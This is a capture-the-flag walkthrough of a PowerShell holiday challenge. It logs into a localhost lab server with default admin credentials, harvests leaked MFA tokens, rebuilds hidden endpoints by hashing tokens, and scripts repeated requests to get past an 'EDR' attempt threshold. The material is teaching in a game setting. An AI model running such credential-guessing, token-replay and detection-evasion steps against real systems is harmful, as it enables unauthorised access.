

# PowerShell

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Request"
    Team Wombley is developing snow weapons in preparation for conflict, but they've been locked out by their own defenses. Help Piney with regaining access to the weapon operations terminal.

??? quote "Piney Sappington"
    Hey there, friend! Piney Sappington here.

    You've probably heard the latest—things are getting tense around here with all the faction business between Wombley and Alabaster. But, let’s focus on this PowerShell Terminal for now.

    This is the remote access for our snowball weaponry. We programmed some defense mechanisms to deter intruders, but the system is in a faulty lockdown state.

    I certainly wasn't the one that programmed the mechanism. Nope not me. But can you help me find a way through it so I can regain access?

    There's two functions I need access to. The snow cannon terminal, which should be easier. And the snow cannon production and deployment plans. That one's better defended.

    Still, I've got faith in you. We need every advantage we can get right now, and you might be just the one to tip the balance.

    So, think you can do it? Are you ready to show what you've got?

## Hints

??? tip "PowerShell Admin Access - Fakeout EDR Threshold"
    They also mentioned this lazy elf who programmed the security settings in the weapons terminal. He created a fakeout protocol that he dubbed Elf Detection and Response "EDR". The whole system is literally that you set a threshold and after that many attempts, the response is passed through... I can't believe it. He supposedly implemented it wrong so the threshold cookie is highly likely shared between endpoints!

??? tip "PowerShell Admin Access - Total Control"
    I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to Get-FileHash -Algorithm SHA256.

## Solution

### Silver



**Geez that sounds ominous, I'm sure we can get past the defense mechanisms.
We should warm up our PowerShell skills. How many words are there in the file?**

`Get-Content ./welcome.txt | Measure-Object -Word`

**There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?**

`netstat -l`  shows us the port is 1225

**You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?**

```powershell
Invoke-WebRequest http://localhost:1225
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).
```

**It looks like defensive measures are in place, it is protected by basic authentication.**
**Try authenticating with a standard admin username and password.**

`Invoke-WebRequest http://localhost:1225 -Authentication Basic -Credential "admin" -AllowUnencryptedAuthentication` with admin as the password

**There are too many endpoints here.**
**Use a loop to download the contents of each page. What page has 138 words?**
**When you find it, communicate with the URL and print the contents to the terminal.**

```powershell
$password =  ConvertTo-SecureString "admin" -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential("admin", $password)

Invoke-WebRequest http://localhost:1225 -Authentication Basic -Credential "admin" -AllowUnencryptedAuthentication -Outvariable x

foreach ($l in $x.links) {                          	 
    Invoke-WebRequest $l.href -outvariable c -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication
    if (($c.Content | Measure-Object -Word).Words -eq 138) {
        Write-Output $l
        return
    }
}
```

**There seems to be a csv file in the comments of that page.**
**That could be valuable, read the contents of that csv-file!**

In the previous script, we should change the Invoke-WebRequest line to:

`(Invoke-WebRequest $l.href -outvariable c -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication).Content`

Then we can just use `$c.Content`

!!! quote ""
    <html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>	A season of love, of care.<br>	The world is bright, full of light,<br>	As we celebrate this special night.<br>	The tree is trimmed, the stockings hung,<br>	Carols are sung, bells are rung.<br>	Families gather, friends unite,<br>	In the glow of the fire’s light.<br>	The air is filled with joy and peace,<br>	As worries and cares find release.<br>	Yuletide cheer, a gift so dear,<br>	Brings warmth and love to all near.<br>	May we carry it in our hearts,<br>	As the season ends, as it starts.<br>	Yuletide cheer, a time to share,<br>	The love, the joy, the care.<br>	May it guide us through the year,<br>	In every laugh, in every tear.<br>	Yuletide cheer, a beacon bright,<br>	Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>

Finally, run:
`(Invoke-WebRequest http://127.0.0.1:1225/token_overview.csv -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication).Content`

**Luckily the defense mechanisms were faulty!**
**There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!**

```powershell
$ (Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication).content
    <h1>[!] ERROR: Missing Cookie 'token'</h1>
    (Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -Headers @{Cookie="token=5f8dd236f862f4507835b0e418907ffc"}).content
    <h1>Cookie 'mfa_code', use it at <a href='1732912027.263781'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```

**Sweet we got a MFA token! We might be able to get access to the system.**
**Validate that token at the endpoint!**

```powershell
$ (Invoke-WebRequest http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -Headers @{Cookie="token=5f8dd236f862f4507835b0e418907ffc;mfa_token=1732912620.6999872"}).Rawcontent
HTTP/1.1 200 OK                                                                           	 
Server: Werkzeug/3.0.6
Server: Python/3.10.12
Date: Fri, 29 Nov 2024 20:37:18 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 137

<h1>[!] System currently in lock down</h1><br><h1>[!] Failure, token has expired. [*] Default timeout set to 2s for security reasons</h1>
```

Looks like we can't manually copy the MFA token. Instead we need to store the token and then use it
immediately:

```powershell
$mfa_token =(Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -Headers @{Cookie="token=5f8dd236f862f4507835b0e418907ffc"}).Links[0].href       	 

(Invoke-WebRequest http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -Headers @{Cookie="token=5f8dd236f862f4507835b0e418907ffc;mfa_token=$mfa_token"}).Rawcontent
HTTP/1.1 200 OK                                                                           	 
Server: Werkzeug/3.0.6
Server: Python/3.10.12
Date: Fri, 29 Nov 2024 20:38:44 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 227

<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p>
```

**That looks like base64! Decode it so we can get the final secret!**

```powershell
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))                                       	 
Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction
```

!!! success "SnowLeopard2ReadyForAction"

!!! quote "Piney Sappington"
    Fantastic work! You've navigated PowerShell’s tricky waters and retrieved the codeword—just what we need in these uncertain times. You're proving yourself a real asset!

    I'll let you in on a little secret—there’s a way to bypass the usual path and write your own PowerShell script to complete the challenge. Think you're up for it? I know you are!

### Gold

With the redacted endpoints, we have the `file_MD5hash` but we're missing the `Sha256` of it.
We can use the unredacted endpoint to check if we can recreate it:

```powershell
PS /home/user> echo 5f8dd236f862f4507835b0e418907ffc > test.txt
PS /home/user> Get-FileHash -Algorithm SHA256 ./test.txt                                                                                                    	 
Algorithm   	Hash                                                               	Path
---------   	----                                                               	----
SHA256      	4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C   	/home/…
```

Fantastic! That means we can use all of the unredacted endpoints.

```powershell
# Store the credentials so that we can keep a cookie jar and reuse them to beat the "fakeout EDR threshold"
$password =  ConvertTo-SecureString "admin" -AsPlainText -Force 
$credential = New-Object System.Management.Automation.PSCredential("admin", $password)
$url = [System.Uri]"http://127.0.0.1:1225"

$content=(Invoke-WebRequest http://127.0.0.1:1225/token_overview.csv -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -SessionVariable session).Content
$lines = $content.split()
$max = 99
$start = 2
for ($i = $start; $i -lt $max; $i++){
   $md5 = $lines[$i].split(',')[0]
   echo $md5 > test.txt
   $hash = (Get-FileHash -Algorithm SHA256 ./test.txt).Hash
        # Repeat each request to bypass the "Fakeout EDR threshold"
       for ($j = 0; $j -lt 10; $j++){
          $session.Cookies.Add($url, (New-Object System.Net.Cookie('token',$md5,"/")))
           $mfa_response =(Invoke-WebRequest http://127.0.0.1:1225/tokens/$hash -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -WebSession $session)
       $mfa_token=$mfa_response.Links[0].href
       if ($mfa_token) {
           $session.Cookies.Add($url, (New-Object System.Net.Cookie("mfa_token",$mfa_token,"/")))
           $response = (Invoke-WebRequest http://127.0.0.1:1225/mfa_validate/$hash -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -WebSession $session)
           if (! ($response.Content.Contains("ERROR:") || $response.Content.Contains("Setting cookie attempts"))) {
               $response
               return
           }
       }
   }
}

$response.Content
```

!!! success "WombleysProductionLineShallPrevail"
    ```
    <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
    ```

## Response

!!! quote "Piney Sappington"
    Incredible! You tackled the hard path and showed off some serious PowerShell expertise. This kind of skill is exactly what we need, especially with things heating up between the factions.

    Well done! you've demonstrated solid PowerShell skills and completed the challenge, giving us a bit of an edge. Your persistence and mastery are exactly what we need—keep up the great work!

